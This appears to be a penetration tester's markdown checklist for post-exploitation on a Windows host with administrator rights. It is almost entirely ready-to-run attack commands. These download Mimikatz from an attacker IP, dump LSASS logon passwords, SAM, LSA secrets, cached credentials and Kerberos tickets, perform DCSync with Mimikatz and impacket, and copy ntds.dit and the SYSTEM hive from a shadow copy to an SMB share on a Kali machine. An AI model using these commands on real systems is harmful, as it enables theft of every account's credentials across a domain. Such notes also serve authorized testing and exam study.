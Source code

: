 # Administrator on Windows?
- [ ] Bloodhound/Sharphound the user
- [ ] Mimikatz!
```
iwr -uri http://192.168.45.xxx/Mimikatz.exe -Outfile Mimikatz.exe

privilege::debug
token::elevate

sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::lsa /patch

lsadump::dcsync

sekurlsa::minidump lsass.dump

sekurlsa::tickets /export
```
- [ ] Look for passwords
- [ ] Check who else is logged into a machine - we can steal their credentials if so
```
iwr -uri http://192.168.45.xxx/PsLoggedon.exe -Outfile 
.\PsLoggedon.exe \\client74
```
- [ ] Find computers where the current user has local admin access
```
Find-LocalAdminAccess
```
- [ ] Repeat privesc auto scripts like winpeas
- [ ] DC Sync from impacket
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"password"@192.168.xxx.xxx
```
- [ ] Shadow copies
```
vshadow.exe -nw -p  C: # get path

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

reg.exe save hklm\system c:\system.bak

## after two files are saved

impacket-smbserver -smb2support test $(pwd) -username er83@R@39nfr0E4 -password kfro@59e$w$21fN$ # on kali

New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\192.168.45.xxx\er83@R@39nfr0E4" -Credential (New-Object System.Management.Automation.PSCredential("er83@R@39nfr0E4", (ConvertTo-SecureString "kfro@59e$w$21fN$" -AsPlainText -Force))) -Persist

Copy-Item -Path "C:\Users\xxx\ntds.dit.bak" -Destination "Z:\ntds.dit.bak

Copy-Item -Path "C:\Users\xxx\system.bak" -Destination "Z:\system.bak

Remove-PSDrive -Name "Z"

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL # on kali
```

